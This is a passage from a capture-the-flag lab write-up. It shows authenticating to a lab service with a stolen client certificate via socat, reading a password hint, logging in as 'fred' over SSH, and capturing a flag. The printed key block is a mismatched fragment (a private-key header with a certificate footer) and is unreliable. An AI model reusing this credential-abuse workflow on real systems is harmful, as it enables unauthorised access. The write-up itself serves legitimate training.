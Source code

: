 ```-----BEGIN RSA PRIVATE KEY-----
gyC5WBq99wW0S5C0iOth8jMW42byUsWO4uS7TwPD3EstBYPzWZ0c4Vqx3f2nKG0T
HZCHlNW/pNwwIq1aOQKjbKMy//hRabMEzuy1ccHx7AbAdmEcelO27zjrWS8lKfFS
biXzqvurbENShc/UfSrQo+Qy1abUf+CwYku3UrQKED7wJqFXQPHJiPC5asNRAXPX
fx/wcUKXDF7pTW4M6dHSuXKOt5AgAWS39Bsq1Psm/2YPeW2zo0EZke5w/yq6oqPp
azrDeVzwbE2ndhewQGMOCygTo4vD7Jibh5D8Kt3OkB+xdg6ALDv/GPWqVxNtK10Q
qRk=
-----END CERTIFICATE-----

```
Now lets use that weird service again. This time as fred!

```bash
socat STDIO ssl:10.10.250.157:54321,cert=cert_fred.crt,key=fred_id,verify=0
```
**Results**
```
2025/06/27 22:06:20 socat[47621] W refusing to set empty SNI host name


 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'fredcsrpem' is authorized.
b3dr0ck> login
Login is disabled. Please use SSH instead.
b3dr0ck> help
Password hint: YabbaDabbaD0000! (user = 'fredcsrpem')
```
**Q. What is fred's password?
A. YabbaDabbaD0000!


Now, we can SSH in as fred

```bash
ssh fred@10.10.250.157
```

```bash
cat fred.txt 
THM{08da34e619da839b154521da7323559d}
```

**Q. What is the fred.txt flag?
A. THM{08da34e619da839b154521da7323559d}

## Go for root

```bash
sudo -l
```
